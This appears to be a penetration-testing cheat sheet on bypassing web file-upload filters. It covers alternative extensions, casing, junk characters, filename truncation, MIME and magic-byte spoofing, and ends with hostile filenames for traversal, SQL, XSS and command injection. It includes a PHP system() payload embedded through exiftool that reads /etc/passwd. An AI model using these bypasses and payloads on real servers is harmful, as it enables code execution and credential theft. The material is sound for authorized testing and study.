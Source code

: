 # File upload

## Intercept with proxy (double extension)
In case a file is uploaded with **double extensions** follow the steps below:

1. Make the web request
2. Intercept traffic with proxy
3. Remove the extension that indicates that the file is an image. `.png` `.jpg`
4. Forward the request
5. Open the uploaded file


## File extension types
Developers might blacklist some extension. However, this can be bypassed by using alternative extensions.

| Type       | Extension                                  |
|------------|--------------------------------------------|
| php        | phtml, .php, .php3, .php4, .php5, and .inc |
| asp        | asp, .aspx                                 |
| perl       | .pl, .pm, .cgi, .lib                       |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf         |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                    |


### Letter casing
One should also consider changing the casing of the letters.
```
.pHp
.PHP
.Php
```

### Double extensions and junk data
Adding a decoy extension before the real one
```
file.png.php
```
Adding (junk) meaningless data in front of the extension
```
file.#.png
file.phpjunkDatapng
file.php%0a.png
```


### Special characters
```
file.php/
file.php....
file.
file.php%20
```


## Breaking filename length
1. Try what the maximum length accepted for the file name is, by  adding a bunch of A's to the file name with the extension at the end.   *(linux maximum is 255 bytes)*
2. Upload the file and see how many characters it allows.
3. Add a valid and a `.php` extension to the file. Make it so that the valid extension gets cut off and the `.php` extension remains.

### Example
1. Assume max file length is 255
2. 251 A's and .php extension add up to 255
3. AAA< SNIP 251 >AAA.php.png
This way, the `.png` gets cut off and leaves the `.php`


## MIME type
Even `MIME` types can be blacklisted by developers.		
By intercepting the traffic one can simply change it, to appeal to the server.				

Normal php MIME type:
```
Content-type: application/x-php
```
Replace with:
```
Content-type: image/jpeg
```


## Magic bytes
If an application uses the file's magic bytes to determine the `Content-Type` one can easily bypass it with changing the files magic bytes.

**Table of magic bytes**
| Type | Bytes                            |
|------|----------------------------------|
| GIF  | GIF89a;\x0a                      |
| JPG  | \xFF\xD8\xFF\xDB                 |
| PNG  | \x89\x50\x4E\x47\x0D\x0A\x1A\x0A |
| TAR  | \x75\x73\x74\x61\x72\x00\x30\x30 |

1. Open the file in `hexeditor`:
	```bash
	hexeditor <file>
	```
2.  Edit the first few bytes so that it fits the file type of your choice.
	```
	# In hexeditor (original)
	00 00 00 00

	# In hexeditor (changed to JPG)
	FF D8 FF DB
	```


## PHP getimagesize()
If a file's size gets validated with the `getimagesize()` function, it is possible to add a payload into the image's metadata with `exiftool`.
1. Add payload
	```bash
	exiftool -Comment='<?php system("cat /etc/passwd") ?>' <jpg_file>
	```
2. Change file type
	```
	mv file.jpg	file.php.jpg
	```
3. Upload to server (proxy intercept)



## From File upload to other vulnerabilities
- Set **filename** to `../../../dev/shm/file.jpg` for **path traversal**
- Set **filename** to `sleep(10)-- -.jpg` for **SQL injection**
- Set **filename** to `<svg onload=alert(document.comain)>` for **XSS**
- Set **filename** to `; sleep 10;` for **command injection**